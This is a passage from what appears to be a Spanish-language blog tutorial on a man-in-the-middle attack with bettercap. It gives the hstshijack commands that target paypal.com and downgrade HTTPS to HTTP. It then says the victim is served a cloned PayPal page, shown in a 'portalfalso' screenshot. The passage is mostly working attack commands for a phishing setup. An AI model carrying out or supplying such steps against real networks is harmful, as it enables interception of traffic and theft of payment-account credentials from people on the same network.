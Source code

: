 2. Configuramos el dominio a interceptar

```bash
set hstshijack.targets paypal.com
```

3. Forzamos el downgrade a Http

```bash
set hstshijack.replacements 192.168.100.210:443,192.168.100.210:80
```
Con esto listo deberiamos tener acceso al clon de paypal desde nuestro objetivo.

### Revisando el tráfico

![portalfalso](/assets/img/posts/mitm-bettercap/portalpaypal.png)
